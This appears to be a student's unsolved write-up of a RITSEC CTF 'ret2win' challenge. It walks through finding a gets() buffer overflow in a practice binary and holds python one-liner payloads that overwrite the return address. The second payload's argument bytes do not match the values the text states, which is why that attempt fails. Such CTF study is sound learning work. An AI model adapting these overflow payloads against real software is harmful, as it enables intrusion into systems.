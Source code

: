 # Ret2win (Unsolved)

Since we had some time left after we finished the web challenges, we thought about attempting a reverse engineering challenge, so here it goes.

In this challenge we are given a binary that is hosted on a server that we can connect to via netcat. Also we were given the binary itself so we opened it with ghidra and started looking.

sifting through the functions we find those three functions:

![flag_func](./images/flag_function.png)

![user_input](./images/user_input.png)

![main](./images/main.png)

So our mission is to call the `supersecrettoplevelfunction` as it's not called by default in neither `user_input` nor in `main`

and we can see that the `user_input` function is using `gets` and a fixed buffer size, which indicates that's it is a classic buffer overflow fulnerability.

Here we started doing some dynamic analysis to see when do we reach the `RET` (return call) of the function and get a segmintation fault. after some testing we found that the binary crashes after enetring exactly 40 bytes.

So now we must find the flag function's address in memroy. we can easily do that with `objdump`

```bash
objdump -D ./ret2win_bin | grep supersecrettoplevelfunction      
0000000000401196 <supersecrettoplevelfunction>:
  4011bb:       75 17                   jne    4011d4 <supersecrettoplevelfunction+0x3e>
  4011c4:       75 0e                   jne    4011d4 <supersecrettoplevelfunction+0x3e>
  4011d2:       eb 0d                   jmp    4011e1 <supersecrettoplevelfunction+0x4b>
```

Now that we have the address we can use it to reach the function

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"\x96\x11\x40\x00\x00\x00\x00\x00")' | ./ret2win_bin
```

and sure enough the binary prints out 
```
[!!] You are good but not good enough for my company
```

and that's totaly the right path as the function checks for the arguments before allowing us to get a shell.
Looking at the arguments' values being checked we can see that the first is being checked to be equal to 'cafebabe' and the second being 'c0debabe'

so we tried to add those values next to the return address of the function 

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"\x96\x11\x40\x00\x00\x00\x00\x00" + b"\x42\x45\x01\x35" + b"\x42\x45\x21\x3f")' | ./ret2win_bin
```
but unfortunately it didn't work neither any order or formatting ar padding done to this payload

![point_reached](./images/point_reached.png)

Most of those techniques we learned from this article [here](https://web.archive.org/web/20161106210059/https://www.exploit-db.com/docs/28553.pdf)

[here](https://gitlab.ritsec.cloud/competitions/ctf-2023-public/-/blob/main/BIN-PWN/ret2win/ritsec23-ret2win.pdf) is the official write-up for the challenge

it appears that we must pop `rdi` and `pop rsi;pop r15` registers
